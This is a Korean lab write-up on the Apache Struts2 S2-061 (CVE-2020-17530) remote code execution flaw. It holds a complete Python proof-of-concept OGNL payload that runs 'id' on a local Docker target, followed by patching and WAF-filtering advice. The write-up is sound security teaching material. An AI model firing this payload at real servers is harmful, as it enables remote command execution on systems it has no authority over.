


# CVE-2020-17530 - Apache Struts2 RCE (s2-061)
#### [pull request 주소] https://github.com/gunh0/kr-vulhub/pull/198
#### [github link](https://github.com/daehyeok0618/kr-vulhub/tree/main/Struts2/CVE-2020-17530)
#### [참고 자료 vulhub CVE-2020-17530](https://github.com/vulhub/vulhub/tree/master/struts2/s2-061)
## 개요
CVE-2020-17530은 Apache Struts2 프레임워크의 `Struts 2.5.22` 이하 버전에서 발생하는 Remote Code Execution (원격 코드 실행) 취약점입니다. 이 취약점은 `Forced OGNL evaluation`로 인해 발생하며, 공격자가 조작된 OGNL 표현식을 HTTP 요청 내에 주입함으로써 서버 측에서 악성 코드를 실행시킬 수 있습니다.

## 환경 설정
다음을 입력하면 Struts 2.5.25 서버가 시작됩니다.
```bash
docker-compose up -d
```
환경이 시작된 후 `http://your-ip:8080`에 방문하면 간단한 페이지가 표시됩니다.

환경을 구성했습니다.


## POC
다음과 같은 공격 코드를 이용해서 `id` 명령을 실행하는 요청을 보냈습니다. 공격자는 multipart/form-data 요청을 통해 서버의 파라미터 처리 구문에 조작된 OGNL payload를 주입합니다.
```
import requests

url = "http://localhost:8080/index.action"

# exploit payload (multipart/form-data 형식)
payload = '''%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
(#bean.setBean(#stack)).
(#context=#bean.get("context")).
(#bean.setBean(#context)).
(#macc=#bean.get("memberAccess")).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance("java.util.HashSet")).
(#bean.put("excludedClasses",#emptyset)).
(#bean.put("excludedPackageNames",#emptyset)).
(#arglist=#instancemanager.newInstance("java.util.ArrayList")).
(#arglist.add("id")).
(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))}'''

# multipart 형식으로 보냄
files = {
    "id": (None, payload)
}

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36"
}

response = requests.post(url, files=files, headers=headers)

print("Status Code:", response.status_code)
print("Response Body:\n", response.text)
```


결과를 보면 현재 명령이 루트 권한으로 실행됨을 알 수 있습니다. 즉, 공격자가 웹애플리케이션 서버에서 루트 권한으로 시스템 명령어 실행에 성공하였습니다.

## 결론
+ Apache Struts2 S2-061 (CVE-2020-17530) 취약점은 OGNL 표현식이 잘못 처리되어 공격자가 원격 코드 실행(RCE)을 할 수 있는 심각한 보안 문제입니다. 대응 방안으로는 먼저 Struts를 2.5.26 이상으로 즉시 업데이트해야 하며, struts.xml 설정에서 struts.excludedClasses와 struts.excludedPackageNames를 명시적으로 제한해 OGNL 접근을 차단합니다.
+ 패치가 어려운 환경에서는 WAF를 사용해 %{, freemarker, Runtime 등 의심스러운 문자열이 포함된 요청을 차단하거나 .action 경로에 접근제어를 적용합니다. 또한 웹서버 로그를 분석해 이상 행위를 탐지하고, 정기적인 보안 점검과 의존성 관리 도구를 통해 취약한 라이브러리를 업데이트해야 합니다.
